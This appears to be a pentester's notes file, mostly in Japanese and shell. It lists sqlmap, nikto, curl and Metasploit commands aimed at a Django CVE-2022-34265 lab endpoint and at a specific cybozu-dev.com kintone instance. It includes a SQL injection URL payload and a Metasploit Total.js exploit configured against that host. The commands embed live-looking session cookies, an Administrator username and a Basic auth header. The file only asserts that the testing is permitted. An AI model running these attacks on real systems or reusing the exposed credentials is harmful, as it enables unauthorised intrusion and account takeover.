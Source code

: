 

以下はペネトレーションテストの許可をいただいている前提での質問です。




## django_cve_2022_34265

- sqlmap : no

```sh
sqlmap -u "http://django_cve_2022_34265:8000/extract/?lookup_name=year" --risk 3 --level 3
```

- nikoto

```sh
nikto -h "http://django_cve_2022_34265:8000/extract/?lookup_name=year"
```



## サイボウズ

```sh
http://localhost:4131/extract/?lookup_name=year%27%20FROM%20start_datetime))%20OR%201=1;SELECT%20PG_SLEEP(5)--
```

```sh
curl 'https://sajz17ejzsji0whhppoo.cybozu-dev.com/k/' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-US,en;q=0.9,ja;q=0.8' \
  -H 'Authorization: Basic SFJzV1JIYmU6bG5hWlhmT1g=' \
  -H 'Connection: keep-alive' \
  -H 'Cookie: __ctc=Z08NIGcsa1gUf17cAwO7Ag==; JSESSIONID=Vdki4fssNrjoqDkX5jVVowr8RqoNE6i2E9dwJBdRCV6KZwy7S4AcJTAu8P3VwfIi; CYBOZU_COM_DOMAIN=sajz17ejzsji0whhppoo; username=Administrator; KINTONE_DOMAIN=sajz17ejzsji0whhppoo' \
  -H 'Referer: https://sajz17ejzsji0whhppoo.cybozu-dev.com/' \
  -H 'Sec-Fetch-Dest: document' \
  -H 'Sec-Fetch-Mode: navigate' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-User: ?1' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36' \
  -H 'sec-ch-ua: "Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "macOS"'
```

```sh
nikto -C "JSESSIONID=Vdki4fssNrjoqDkX5jVVowr8RqoNE6i2E9dwJBdRCV6KZwy7S4AcJTAu8P3VwfIi; CYBOZU_COM_DOMAIN=sajz17ejzsji0whhppoo; username=Administrator; KINTONE_DOMAIN=sajz17ejzsji0whhppoo" -h https://sajz17ejzsji0whhppoo.cybozu-dev.com/k/5/
```



```sh
sqlmap -u "https://sajz17ejzsji0whhppoo.cybozu-dev.com/k/5/?view=20"  --risk 3 --level 3 --cookie "JSESSIONID=Vdki4fssNrjoqDkX5jVVowr8RqoNE6i2E9dwJBdRCV6KZwy7S4AcJTAu8P3VwfIi; CYBOZU_COM_DOMAIN=sajz17ejzsji0whhppoo; username=Administrator; KINTONE_DOMAIN=sajz17ejzsji0whhppoo" --headers="Authorization: Basic SFJzV1JIYmU6bG5hWlhmT1g="
```






## サイボウズ


```sh
curl -I 'https://sajz17ejzsji0whhppoo.cybozu-dev.com/k/5/edit' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-US,en;q=0.9,ja;q=0.8' \
  -H 'Authorization: Basic SFJzV1JIYmU6bG5hWlhmT1g=' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'Cookie: __ctc=Z08NIGcsa1gUf17cAwO7Ag==; CYBOZU_COM_DOMAIN=sajz17ejzsji0whhppoo; username=Administrator; KINTONE_DOMAIN=sajz17ejzsji0whhppoo; JSESSIONID=eclqY8LJEr0h0HHGqOf4lFKyeEMSEpMwQjlO4UE9TEk2wXEjbeQyXk2EAOCiKHd5' \
  -H 'Referer: https://sajz17ejzsji0whhppoo.cybozu-dev.com/k/5/' \
  -H 'Sec-Fetch-Dest: document' \
  -H 'Sec-Fetch-Mode: navigate' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-User: ?1' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36' \
  -H 'sec-ch-ua: "Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "macOS"'
```


```sh
nikto -C "JSESSIONID=eclqY8LJEr0h0HHGqOf4lFKyeEMSEpMwQjlO4UE9TEk2wXEjbeQyXk2EAOCiKHd5; CYBOZU_COM_DOMAIN=sajz17ejzsji0whhppoo; username=Administrator; KINTONE_DOMAIN=sajz17ejzsji0whhppoo" -h https://sajz17ejzsji0whhppoo.cybozu-dev.com/k/9
```

```sh
sqlmap -u "https://sajz17ejzsji0whhppoo.cybozu-dev.com/k/9/"  --risk 3 --level 3 --cookie "JSESSIONID=eclqY8LJEr0h0HHGqOf4lFKyeEMSEpMwQjlO4UE9TEk2wXEjbeQyXk2EAOCiKHd5; CYBOZU_COM_DOMAIN=sajz17ejzsji0whhppoo; username=Administrator; KINTONE_DOMAIN=sajz17ejzsji0whhppoo" --headers="Authorization: Basic SFJzV1JIYmU6bG5hWlhmT1g="
```


- msfconsole

```
use exploit/multi/http/totaljs_cms_widget_exec 
set RHOSTS https://sajz17ejzsji0whhppoo.cybozu-dev.com/k/5/edit
set HttpCookie "CYBOZU_COM_DOMAIN=sajz17ejzsji0whhppoo; username=Administrator; KINTONE_DOMAIN=sajz17ejzsji0whhppoo; JSESSIONID=eclqY8LJEr0h0HHGqOf4lFKyeEMSEpMwQjlO4UE9TEk2wXEjbeQyXk2EAOCiKHd5"

```

curl -I 'https://sajz17ejzsji0whhppoo.cybozu-dev.com/k/' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-US,en;q=0.9,ja;q=0.8' \
  -H 'Authorization: Basic SFJzV1JIYmU6bG5hWlhmT1g=' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'Cookie: __ctc=Z08NIGcsa1gUf17cAwO7Ag==; CYBOZU_COM_DOMAIN=sajz17ejzsji0whhppoo; username=Administrator; KINTONE_DOMAIN=sajz17ejzsji0whhppoo; JSESSIONID=eclqY8LJEr0h0HHGqOf4lFKyeEMSEpMwQjlO4UE9TEk2wXEjbeQyXk2EAOCiKHd5' \
  -H 'Referer: https://sajz17ejzsji0whhppoo.cybozu-dev.com/k/6/' \
  -H 'Sec-Fetch-Dest: document' \
  -H 'Sec-Fetch-Mode: navigate' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-User: ?1' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36' \
  -H 'sec-ch-ua: "Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "macOS"'



